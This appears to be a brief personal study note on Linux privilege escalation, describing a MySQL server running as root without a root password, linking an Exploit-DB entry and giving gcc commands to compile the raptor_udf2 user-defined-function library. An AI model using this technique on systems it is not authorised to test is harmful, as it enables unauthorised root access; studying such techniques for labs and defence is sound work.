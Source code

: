 # linux privEsc



### mysql

- mysql is running as root
- and the root user doesnot have a password

- [exploit](https://www.exploit-db.com/exploits/1518)



![image-20200814204639107](linuxPrivesc.assets/image-20200814204639107.png)

```bash
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```



![image-20200814205223243](linuxPrivesc.assets/image-20200814205223243.png)
